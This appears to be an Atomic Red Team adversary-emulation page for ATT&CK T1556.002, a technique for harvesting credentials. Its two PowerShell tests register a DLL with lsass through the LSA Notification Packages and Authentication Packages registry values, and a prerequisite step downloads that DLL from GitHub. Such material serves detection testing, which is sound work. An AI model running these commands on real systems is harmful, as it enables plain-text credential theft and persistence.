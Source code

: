 # T1556.002 - Modify Authentication Process: Password Filter DLL
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1556/002)
<blockquote>Adversaries may register malicious password filter dynamic link libraries (DLLs) into the authentication process to acquire user credentials as they are validated. 

Windows password filters are password policy enforcement mechanisms for both domain and local accounts. Filters are implemented as DLLs containing a method to validate potential passwords against password policies. Filter DLLs can be positioned on local computers for local accounts and/or domain controllers for domain accounts. Before registering new passwords in the Security Accounts Manager (SAM), the Local Security Authority (LSA) requests validation from each registered filter. Any potential changes cannot take effect until every registered filter acknowledges validation. 

Adversaries can register malicious password filters to harvest credentials from local computers and/or entire domains. To perform proper validation, filters must receive plain-text credentials from the LSA. A malicious password filter would receive these plain-text credentials every time a password request is made.(Citation: Carnal Ownage Password Filters Sept 2013)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install and Register Password Filter DLL](#atomic-test-1---install-and-register-password-filter-dll)

- [Atomic Test #2 - Install Additional Authentication Packages](#atomic-test-2---install-additional-authentication-packages)


<br/>

## Atomic Test #1 - Install and Register Password Filter DLL
Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.
The binary in bin is https://www.virustotal.com/gui/file/95140c1ad39fd632d1c1300b246293297aa272ce6035eecc3da56e337200221d/detection
Source is in src folder. 
This does require a reboot to see the filter loaded into lsass.exe. 
It does require Administrative privileges to import the clean registry values back into LSA, it is possible you may have to manually do this after for cleanup.

**Supported Platforms:** Windows


**auto_generated_guid:** a7961770-beb5-4134-9674-83d7e1fa865c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | Path to DLL to be installed and registered | path | PathToAtomicsFolder&#92;T1556.002&#92;bin|
| dll_name | Name of the Password Filter | string | AtomicRedTeamPWFilter.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
reg.exe export HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
$passwordFilterName = (Copy-Item "#{dll_path}\#{dll_name}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
```

#### Cleanup Commands:
```powershell
reg.exe import "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
remove-item C:\Windows\System32\#{dll_name}
```



#### Dependencies:  Run with `powershell`!
##### Description: AtomicRedTeamPWFilter.dll must exist on disk at specified location (#{dll_path}\#{dll_name})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}\#{dll_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/redcanaryco/atomicredteam/atomics/T1556.002/bin/AtomicRedTeamPWFilter.dll" -OutFile "#{dll_path}\#{dll_name}"
```




<br/>
<br/>

## Atomic Test #2 - Install Additional Authentication Packages
lsass.exe loads all DLLs specified by the Authentication Packages REG_MULTI_SZ value.
Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.
The binary in bin is https://www.virustotal.com/gui/file/95140c1ad39fd632d1c1300b246293297aa272ce6035eecc3da56e337200221d/detection
Source is in src folder. 
This does require a reboot to see the filter loaded into lsass.exe. 
It does require Administrative privileges to import the clean registry values back into LSA, it is possible you may have to manually do this after for cleanup.

**Supported Platforms:** Windows


**auto_generated_guid:** 91580da6-bc6e-431b-8b88-ac77180005f2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | Path to DLL to be installed and registered as additional authentication package | path | PathToAtomicsFolder&#92;T1556.002&#92;bin|
| dll_name | Name of the Password Filter | string | AtomicRedTeamPWFilter.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
reg.exe export HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
$passwordFilterName = (Copy-Item "#{dll_path}\#{dll_name}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$AuthenticationPackagesValues = $lsaKey.GetValue("Authentication Packages")
$AuthenticationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Authentication Packages" $AuthenticationPackagesValues
```

#### Cleanup Commands:
```powershell
reg.exe import "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
remove-item C:\Windows\System32\#{dll_name}
```



#### Dependencies:  Run with `powershell`!
##### Description: AtomicRedTeamPWFilter.dll must exist on disk at specified location (#{dll_path}\#{dll_name})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}\#{dll_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/redcanaryco/atomicredteam/atomics/T1556.002/bin/AtomicRedTeamPWFilter.dll" -OutFile "#{dll_path}\#{dll_name}"
```




<br/>
